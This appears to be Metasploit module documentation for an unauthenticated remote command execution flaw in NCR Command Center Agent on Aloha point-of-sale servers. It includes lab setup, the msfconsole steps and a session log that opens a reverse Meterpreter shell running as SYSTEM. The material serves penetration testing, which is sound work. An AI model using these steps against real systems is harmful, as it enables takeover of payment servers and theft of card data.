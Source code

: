 ## Vulnerable Application

CMCAgent in NCR Command Center Agent 16.3 on Aloha POS/BOH servers permits the submission of a runCommand parameter
(within an XML document sent to port 8089) that enables the remote, unauthenticated execution of an arbitrary command
as SYSTEM, as exploited in the wild in 2020 and/or 2021. NOTE: the vendor's position is that exploitation occurs only
on devices with a certain "misconfiguration."

Successfully tested against NCR Command Center Agent 16.2.1.1

### Install

The original link is https://rdf2.alohaenterprise.com/client/CMCInst.zip. Since the URL was inaccessible, the file was downloaded using the Web Archive. Here’s the final URL:

```
https://web.archive.org/web/20210129020048/https://rdf2.alohaenterprise.com/client/CMCInst.zip
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use windows/misc/ncr_cmcagent_rce`
4. Do: `set rhosts [ip]`
5. Do: `set lhost [ip]`
6. Do: `run`
7. You should get a shell.

## Options

## Scenarios

```
msf > use windows/misc/ncr_cmcagent_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/misc/ncr_cmcagent_rce) > set LHOST 192.168.2.107
LHOST => 192.168.2.107
msf exploit(windows/misc/ncr_cmcagent_rce) > set RHOSTS 192.168.2.106
RHOSTS => 192.168.2.106
msf exploit(windows/misc/ncr_cmcagent_rce) > exploit
[*] Started reverse TCP handler on 192.168.2.107:4444 
[*] 192.168.2.106:8089 - Generating payload
[*] 192.168.2.106:8089 - Check your shell
[*] Sending stage (177734 bytes) to 192.168.2.106
[*] Meterpreter session 1 opened (192.168.2.107:4444 -> 192.168.2.106:49849) at 2025-10-23 05:38:45 -0400

meterpreter > shell
Process 5188 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19044.4529]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

